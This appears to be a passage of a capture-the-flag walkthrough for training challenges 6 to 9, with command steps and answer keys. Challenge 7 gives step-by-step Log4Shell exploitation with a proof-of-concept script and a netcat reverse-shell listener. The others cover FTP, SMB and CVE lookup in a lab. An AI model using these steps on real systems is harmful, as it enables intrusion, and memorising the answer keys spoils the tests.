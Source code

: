 ### Challenge 6:
Attackers have identified a vulnerable website and stored the details of this website on one of the machines within the 192.168.10.0/24 subnet. As a cybersecurity investigator you have been tasked to crack the FTP credentials of user nick and determine the ID of the domain. The information you need has been gathered and stored in the w_domain.txt file. *(Format: NNNNNNNNNN)*{: .highlight}
```bash
- Use same procedure in Enage 2 **Challenge** 1 (ftp 192.168.10.111  and password in apple)
- get W_domain.txt
```
Answer: `7867721010`

### Challenge 7:
You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. *(Format: `Aa*aaNNNN`)*{: .highlight}
```bash
- First find the ip hosting website in port 8080 using nmap. Then do further steps
- In home execute 
- tar -xf jdk-8u202-linux-x64.tar.gz
- mv jdk1.8.0_202 /usr/bin
- cd log4j-shell-poc
- pluma poc.py
- Update the JDK Path in the Poc.py file
- Change Line no: 62, replace jdk1.8.0_20/bin/javac with "/usr/bin/jdk1.8.0_202/bin/javac"
- Change Line no: 87, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"
- Change Line no: 99, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"
- execute this in seperate terminal [ nc -lvp 9001]
- python3 poc.py --userip {ip of attacker pc} --webport 8080 --lport 9001
- Copy the [send this : value to be copied] from the output of previous command
- paste in username box and type any password in password box, click login
- Reverse shell connected in separate terminal where nc is listening
- type cat RootFlag.txt to view answer
- (If not connect to reverse shell reload the website and check the path and try again )
```
Answer: `Ch@mp2022`

### Challenge 8:
You are a penetration tester assigned to a new task. A list of websites is  stored in the webpent.txt file on the target machine with the IP address 192.168.10.101. Your objective is to find the Meta-Author of the website that is highlighted in the list. (Hint: Use SMB service) *(Format: AA-Aaaaaaa)*{: .highlight}
```bash
- Connect to the ip with password found in **Challenge** 5
- get file from music folder of user Martin
- whatweb "url"
```
Answer: `EC-Council`

### Challenge 9:
You have recently joined GoodShopping Inc. as a web application security administrator. Eager to understand the security landscape of the company’s website, www.goodshopping.com, you decide to investigate the security updates that have been made over time. Your specific task is to identify the attack category of the oldest Common Vulnerabilities and Exposures (CVEs) affected the website. *(Format: `aaaaa*aaaa aaaaaaaaaa (AAA)`)*{: .highlight}
```bash
- I found manually you can use Owasp zap or open vas or vega to confirm 
```
Answer: `cross-site scripting (XSS)`
